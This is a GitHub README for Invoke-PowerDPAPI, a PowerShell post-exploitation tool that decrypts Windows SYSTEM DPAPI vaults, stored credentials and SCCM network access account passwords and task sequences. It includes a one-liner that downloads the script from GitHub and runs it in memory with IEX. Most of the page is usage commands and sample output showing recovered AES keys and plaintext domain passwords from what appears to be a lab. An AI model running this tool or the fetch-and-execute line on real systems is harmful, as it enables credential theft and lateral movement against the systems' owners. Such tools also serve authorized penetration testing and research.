# Invoke-PowerDPAPI
Invoke-PowerDPAPI is a PowerShell port of some [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) and [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) functionality. 

For the moment this is limited to SYSTEM level functions such as triaging SYSTEM master keys and decrpypting the following secrets:

- System Vaults
- System Credentials
- SCCM NAA accounts (WMI / Disk)
- SCCM Task Sequences (WMI / Disk)

## Future Updates

Not all SharpDPAPI functionality will be implemented into this port. This will be limited to functionality that fits my workflow and code that I believe can be reused in further projects.

Future updates to be completed:
- User level DPAPI
- Automate takeover of each user logon session and decrypt each user DPAPI secret
- SYSTEM Certificates
- Domain Backup key support

## Requirements

❗ Invoke-PowerDPAPI must be executed in a high integrity process

## Load into memory
```powershell
IRM "https://raw.githubusercontent.com/The-Viper-One/Invoke-PowerDPAPI/refs/heads/main/Invoke-PowerDPAPI.ps1" | IEX
```

## Usage

### Triage Everything
> Runs MachineVaults, MachineCredentials, SCCM_Disk and SCCM_WMI

```powershell
Invoke-PowerDPAPI MachineTriage
```
&nbsp;

### Triage MachineVaults
```powershell
Invoke-PowerDPAPI MachineVaults
```
```
[*] Triaging SYSTEM Vaults

[*] Triaging Vault Folder: C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials 
    guidMasterKey    : {e922342f-143e-4b65-a25b-e83354a47007}
    size             : 324
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : 
    guidMasterKey    : 
    size             : 324
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Vault Policy Key
    aes128 key       : 17D5264E849A7136427830A4835B8669
    aes256 key       : 428397F3F8260174A5923BC66CC014CB2D3C4ABAFB5FFBC90D7A959DC4DC817C
```
&nbsp;

### Triage MachineCredentials
```powershell
Invoke-PowerDPAPI MachineCredentials
```
```
[*] Triaging System Credentials

Folder       : C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

  CredFile           : 3F38B7EDDCC210906994CAC4A9077348
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 544
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data

    guidMasterKey    : 
    size             : 264
    flags            : 0x00000030 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Local Credential Data
    LastWritten      : 6/19/2025 12:18:59 AM
    TargetName       : Domain:batch=TaskScheduler:Task:{52340B14-C919-4223-970B-103AAAFE2720} 
    TargetAlias      : 
    Comment          : 
    UserName         : ludus\domainuser 
    Credential       : password
```
&nbsp;

### Triage SCCM (WMI and Disk)
> Runs SCCM_WMI and SCCM_Disk
```powershell
Invoke-PowerDPAPI SCCM
```
&nbsp;

### Triage SCCM (WMI)
```powershell
Invoke-PowerDPAPI SCCM_WMI
Invoke-PowerDPAPI SCCM_WMI -SaveTS # Saves Task Sequences in XML format to PWD
```
```
[+] Found 1 Network Access Account(s)
[+] Decrypting network access account credentials

    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 266
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 250
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  


    Network Access Username: ludus\sccm_naa_2 
    Network Access Password: password123 

[+] Found 2 Task Sequence(s)
[+] Decrypting Task Sequences

    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 8042
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  

[+]    Task Sequence: 
<sequence version="3.10">
  <step type="SMS_TaskSequence_RunCommandLineAction" name="Run SQL CMD" description="" runIn="WinPEandFullOS" successCodeList="0 3010" retryCount="0" runFromNet="false">
    <action>smsswd.exe /run: sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</action>
    <defaultVarList>
      <variable name="CommandLine" property="CommandLine" hidden="true">sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</variable>
      <variable name="SMSTSDisableWow64Redirection" property="DisableWow64Redirection">false</variable>
      <variable name="SMSTSRunCommandLineOutputVariableName" property="OutputVariableName">
      </variable>
      <variable name="_SMSTSRunCommandLineAsUser" property="RunAsUser">false</variable>
      <variable name="SuccessCodes" property="SuccessCodes" hidden="true">0 3010</variable>
    </defaultVarList>
  </step>
</sequence>
```
&nbsp;

### Triage SCCM (Disk)
```powershell
Invoke-PowerDPAPI SCCM_Disk
Invoke-PowerDPAPI SCCM_Disk -SaveTS # Saves Task Sequences in XML format to PWD
```
```
[+] Decrypting 1 network access account secrets
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 266
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 250
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  

    NetworkAccessUsername: ludus\sccm_naa_2 
    NetworkAccessPassword: password123 

[+] Decrypting 1 task sequence secrets
    guidMasterKey    : {8173b631-3636-4c96-81e7-ae2c8fd60632}
    size             : 2154
    flags            : 0x00000000
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      :  

<sequence version="3.10">
  <step type="SMS_TaskSequence_RunCommandLineAction" name="Run SQL CMD" description="" runIn="WinPEandFullOS" successCodeList="0 3010" retryCount="0" runFromNet="false">
    <action>smsswd.exe /run: sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</action>
    <defaultVarList>
      <variable name="CommandLine" property="CommandLine" hidden="true">sqlcmd -S myserver.database.windows.net -d MyDatabase -U MyUserName -P MySecretPassword -Q "SELECT TOP 10 * FROM dbo.MyTable"</variable>
      <variable name="SMSTSDisableWow64Redirection" property="DisableWow64Redirection">false</variable>
      <variable name="SMSTSRunCommandLineOutputVariableName" property="OutputVariableName">
      </variable>
      <variable name="_SMSTSRunCommandLineAsUser" property="RunAsUser">false</variable>
      <variable name="SuccessCodes" property="SuccessCodes" hidden="true">0 3010</variable>
    </defaultVarList>
  </step>
</sequence>
```
&nbsp;

